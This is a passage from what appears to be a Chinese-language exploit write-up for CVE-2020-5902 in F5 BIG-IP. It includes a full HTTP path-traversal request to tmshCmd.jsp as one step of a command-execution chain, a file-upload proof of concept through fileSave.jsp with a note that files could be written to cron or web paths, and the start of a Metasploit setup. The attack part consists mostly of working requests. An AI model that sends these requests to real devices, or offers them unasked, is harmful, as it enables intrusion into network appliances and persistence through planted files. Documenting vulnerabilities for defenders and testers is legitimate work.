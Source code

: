  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHdMu398xRib6u0WUjeXkUUFsYCRhN29XSANkaTaWd3eibI2Hia4GSEAeQw/640?wx_fmt=jpeg "")  
  
Step 4：清除创建的alias  

```
tmshCmd.jsp?command=delete+cli+alias+private+list
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH9Vhjibic7IY57CUBu7aA7Hhic0AVKnc9DaRpZHf9jSy4qTXg50XWJ0oIA/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```

###### 文件上传  
  
POC:  

```
POST:/tmui/locallb/workspace/fileSave.jsp
fileName=/tmp/1.txt&content=CVE-2020-5902
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHz55E1vQHKjKdK2pJRiagrOuP1Gc1UaU6xy9DjsqCy9Y4D795cK5FufA/640?wx_fmt=png "")  
  
之后通过文件读取验证：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH9hjJso8PBDyw7DJRx4XiaDA12Fqcj8RS3603d9jh7Cmhahsq8yleFkQ/640?wx_fmt=png "")  
  
可以看到成功上传文件/tmp/1.txt~  
  
PS：这里的文件写入路径可控，所以可以写入到计划任务或者www下的可写路径下(路径下有部分无法写入)，这里不再展开赘述了~  
##### MSF利用  
  
首先，我们需要下载MSF官方提供的攻击载荷到本地，在这之前你需要了解自己的msf的modules的路径，笔者这里为：/opt/metasploit-framework/embedded/framework/modules/exploits/linux/http/  
  
